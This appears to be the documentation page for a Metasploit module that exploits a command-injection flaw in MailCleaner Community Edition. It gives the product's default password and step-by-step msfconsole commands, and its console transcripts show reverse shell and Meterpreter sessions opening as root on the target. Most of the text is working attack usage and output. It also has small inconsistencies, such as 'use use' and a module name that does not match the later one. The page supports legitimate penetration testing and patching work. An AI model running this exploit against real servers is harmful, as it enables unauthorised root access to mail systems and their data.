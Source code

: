 ## Description

This module exploits the command injection vulnerability of MailCleaner Community Edition product. An authenticated user can execute an operating system command under the context of the web server user which is root.

### Vulnerable Application
You can download ISO file from following URL.
[https://www.mailcleaner.org/latest-downloads/](https://www.mailcleaner.org/latest-downloads/)

At the time of this writing all the passwords of users such as root or admin user was "MCPassw0rd".

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use use exploit/linux/http/mailcleaner`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing ` Awesome..! Authenticated`.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
PASSWORD => qwe123
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:<password>
[*] Exploiting command injection flaw
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.100:44974) at 2018-12-19 17:24:44 +0300
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.100:44975) at 2018-12-19 17:24:45 +0300

meterpreter >
```

You can also use cmd payloads.

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
msf5 exploit(linux/http/mailcleaner_exec) > set target 1
msf5 exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP double handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:MCPassw0rd
[*] Exploiting command injection flaw
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo P6zixt2asYXZ29NE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "P6zixt2asYXZ29NE\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (12.0.0.1:4444 -> 12.0.0.100:53996) at 2018-12-20 12:09:32 +0300

id
uid=0(root) gid=1003(mailcleaner) groups=1003(mailcleaner)
```
